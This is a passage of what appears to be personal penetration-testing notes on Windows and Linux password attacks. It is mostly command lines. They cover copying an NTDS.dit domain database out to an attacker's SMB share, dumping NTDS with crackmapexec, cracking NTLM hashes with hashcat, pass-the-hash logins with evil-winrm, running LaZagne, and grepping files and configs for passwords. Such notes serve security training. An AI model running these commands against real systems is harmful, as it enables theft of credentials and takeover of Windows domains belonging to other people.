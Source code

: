 Now we can move it to our machine:
```console
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\<OUR IP>\CompData 
```

Or we can do it with `crackmapexec`:
```console
zero@pio$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> --ntds
```

### Usage

Now we can crack the hashes as always:
```console
zero@pio$ hashcat -m 1000 <HASH> <WORDLIST>
```

Or use the **PTH** (**Pass The Hash**) attack:
```console
zero@pio$ evil-winrm -i <IP> -u <USER> -H <HASH>
```

## Credential Hunting 

It is useful to search by common words as:
```
Passwords	Passphrases	Keys
Username	User account	Creds
Users	Passkeys	Passphrases
configuration	dbcredential	dbpassword
pwd	Login	Credentials
```

We can use some tools like [Lazagne](https://github.com/AlessandroZ/LaZagne). It can work as:
```console
C:\zeropio> start lazagne.exe all
```

We can use some regex, as:
```console
C:\zeropio> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

---

# Linux Password Attacks

## Credential Hunting 

We can search for different files. For example...

For config files:
```console
zero@pio$ for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
zero@pio$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
